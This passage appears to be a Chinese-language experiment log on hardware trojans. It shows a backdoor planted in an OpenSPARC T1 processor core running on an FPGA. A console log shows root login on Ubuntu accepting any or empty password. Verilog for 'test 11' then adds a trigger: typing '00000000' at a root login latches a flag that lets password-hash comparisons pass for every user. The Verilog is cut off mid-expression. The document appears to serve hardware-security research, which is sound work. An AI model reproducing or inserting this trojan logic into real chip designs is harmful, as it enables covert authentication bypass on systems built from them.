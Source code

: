`````verilog
`````

** uty_ubuntu_patchbitgen1c4t_test48.ace **

### 结果：

这次可以。随便什么密码都可以登陆root。直接回车空密码也可以。

`````shell
root@t1-fpga-00:~# login
t1-fpga-00 login: root
Password:                ----> 随便敲的
Last login: Wed Dec 31 16:01:53 PST 1969 on ttyS0
Linux t1-fpga-00 2.6.22-15-sparc64-smp #110 SMP Wed Mar 18 16:53:44 PDT 2009 sparc64

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
root@t1-fpga-00:~# 
`````

这说明和qemu上的debian9.0一样，密码比较只进行一次，而且是按64位比较的。

很幸运，最后2个字节的条件似乎没有误报什么，成功的从启动直到进了系统。


----------------------------------

## 测试11

这次测一个实用的后门。

输入00000000后开启后门，此后登陆所有的用户名均不需要密码或任意密码。



`````verilog
   assign backdoor_on_keyword = ((64'h3030303030303030 == byp_alu_rs1_data_e[63:0]) && (40'h726f6f7400 == byp_alu_rs2_data_e[63:24]))
                                || ((64'h3030303030303030 == byp_alu_rs2_data_e[63:0]) && (40'h726f6f7400 == byp_alu_rs1_data_e[63:24]));
   assign backdoor_off_keyword = ((64'h3030303030303031 == byp_alu_rs1_data_e[63:0]) && (40'h726f6f7400 == byp_alu_rs2_data_e[63:24]))
                                || ((64'h3030303030303031 == byp_alu_rs2_data_e[63:0]) && (40'h726f6f7400 == byp_alu_rs1_data_e[63:24]));

   assign backdoor_en = backdoor_on_keyword | backdoor_off_keyword;
   assign backdoor_nxt = (backdoor_on_keyword & (~backdoor_off_keyword));

   dffe_s #(1) backdoor_dff(.din(backdoor_nxt), .en(backdoor_en),
                        .clk(clk), .q(backdoor_r), .se(se),
                        .si(), .so());

   // only consider $1$ for now
   assign hash_begin = ((24'h243124 == byp_alu_rs1_data_e[63:40]) && (24'h243124 == byp_alu_rs2_data_e[63:40]))
                        & rs1rs2_ishashdata;

   assign hash_end = ~rs1rs2_ishashdata;

   assign rs1rs2_ishashdata =
                        (
                           (2'b0 != byp_alu_rs1_data_e[62:61]) && (2'b0 != byp_alu_rs2_data_e[62:61])
`````